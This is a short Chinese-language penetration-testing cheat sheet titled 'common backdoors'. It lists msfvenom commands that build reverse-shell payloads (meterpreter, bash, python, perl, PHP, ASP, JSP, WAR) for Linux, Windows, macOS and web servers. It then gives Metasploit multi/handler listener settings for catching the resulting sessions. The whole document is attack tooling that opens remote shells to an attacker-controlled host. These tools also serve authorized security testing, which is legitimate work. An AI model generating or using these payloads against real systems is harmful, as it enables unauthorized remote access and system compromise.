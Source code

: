 ### 常用的后门

```shell
Linux:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
Windows:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
Mac:
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
PHP:
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
ASP:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
JSP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
WAR:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
Python:
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
Bash:
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
Perl:
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

### 监听

```csharp
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false   让connection保持连接(即使一个连接退出,仍然保持listening状态)
exploit -j –z  -j(作为job开始运行)和-z(不立即进行session交换--也即是自动后台运行)
```

```bash
use exploit/multi/handler
msf exploit(handler) > set LHOST 172.16.0.4
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j -z  
-j(计划任务下进行攻击，后台) -z(攻击完成不遇会话交互)
msf exploit(handler) > jobs  查看后台攻击任务 
msf exploit(handler) > kill <id>  停止某后台攻击任务 
msf exploit(handler) > sessions -l  (查看会话)
```
